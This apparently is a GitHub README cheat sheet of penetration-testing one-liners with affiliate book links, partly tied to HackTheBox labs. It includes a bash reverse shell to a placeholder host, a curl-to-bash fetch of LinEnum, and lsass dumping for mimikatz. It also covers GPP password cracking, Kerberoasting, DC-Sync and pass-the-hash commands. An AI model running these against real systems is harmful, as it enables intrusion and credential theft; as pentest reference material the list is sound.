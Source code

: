 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://amzn.to/3TGFCpC" target="_blank">The OSINT Handbook: A practical guide to gathering and analyzing online information</a></li>
<li><a href="https://amzn.to/3PwtVzp" target="_blank"> Advanced Penetration Testing with Kali Linux: Unlocking industry-oriented VAPT tactics</a></li>
  <li><a href="https://amzn.to/3VregVQ" target="_blank">Fighting Phishing: Everything You Can Do to Fight Social Engineering and Phishing</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>SMB scan</b>
<ul>
  <li> smbclient -N //ip/sharename
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
  <li> https://github.com/ohpe/juicy-potato  
</ul>

    
<b>Shell</b>
<ul>
  <li> python -c 'import pty; pty.spawn("/bin/sh")'
  <li> python -c 'import pty; pty.spawn("/bin/bash")'
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>


<b>IPSEC hackthebox</b>
<ul>
  <li> juicypotato windows priv esc - Conceal https://www.youtube.com/watch?v=1ae64CdwLHE
  <li> setuid viewuser - Irked https://www.youtube.com/watch?v=OGFTM_qvtVI
  <li> hackthebox squid server - https://www.youtube.com/watch?v=5wyvpJa9LdU
</ul>

<b>Bloodhound</b>
<ul>
  <li> wget -O - https://debian.neo4j.org/neotechnology.gpg.key | sudo apt-key add -
  <li> echo 'deb https://debian.neo4j.org/repo stable/' | sudo tee /etc/apt/sources.list.d/neo4j.list
  <li> sudo apt-get update
  <li> apt-get install neo4j
  <li> apt-get install bloodhound
  <li> neo4j start (set the admin password in the browser)
  <li> bloodhound
</ul>

<b>Screenshot</b>
<ul>
  <li>gowitness-2.1.2-windows-amd64.exe scan --cidr 192.168.230.0/24 --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe scan -f ip_in_file.txt --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe report serve
</ul>

<b>Procdump</b>
<ul>
  <li> procdump lsass https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php
  <li>
</ul>

<b>cpassword</b>
<ul>
  <li> findstr -S cpassword $env:logonserver\sysvol\*.xml
  <li> crack passwords with https://github.com/t0thkr1s/gpp-decrypt
</ul>

<b>Find string with grep</b>
<ul>
  <li> grep -oP '(?<="InsertSearchString": ")[^"]*'
  
</ul>

<b>Run pingcastle fromt CMD </b>
<ul>
  <li> PingCastle.exe --server dc.local --user xxxx --password xxxx --healthcheck
  <li> PingCastle.exe --server x.x.x.x --export users --user domainuser --password domainpassword
  
</ul>

<b>Find in Linux</b>
<ul>
  <li>find -L . -name "foo*"</li>
</ul>

<b>Kerberos attacks </b>
<ul>
  <li> From a non-domain PC: python GetUsersSPN.py -dc-ip x.x.x.x bla.local/account:password -request
  <li> or from a domain joined PC python GetUsersSPN.py bla.local/account:password -request
  <li>
  <li> DC-Sync attack: python secretsdump.py bla.local/account:password@dc1.bla.local
  <li> if that works you can use python wmiexec.py bla.local/account@dc1.bla.local -hashes "insert hash"
</ul>

<b>find installed MSI's</b>
<ul>
  <li> Get-WmiObject Win32_Product | Format-Table IdentifyingNumber, Name
  wmiexec /fa ID
</ul>

<b>Check for AD or Azure AD joined</b>
<ul>
  <li> dsregcmd /status
</ul>

<b>encrypt file with QPDF</b>
<ul>
<li>qpdf --encrypt passsword password 256 -- input.pdf output.pdf
</ul>


<b>Blacklist IP's when installing letsenscrypt</b>
180.188.243.95
79.137.68.184
134.122.89.242
144.126.198.24
51.81.245.138
45.142.96.48
168.151.165.42
180.149.11.253
119.12.180.71
18.170.66.210
161.35.246.138
51.75.141.254
46.246.122.80
34.220.105.216
185.220.100.247
104.129.18.188
154.47.30.167
84.247.116.160
45.87.212.76
104.244.209.36
34.248.137.227
54.247.57.72
37.19.210.17
66.115.189.222
51.81.46.212
135.148.100.196
96.9.246.196
5.181.234.134
104.166.80.40
104.166.80.254
45.56.71.92
79.125.7.88
66.115.165.233
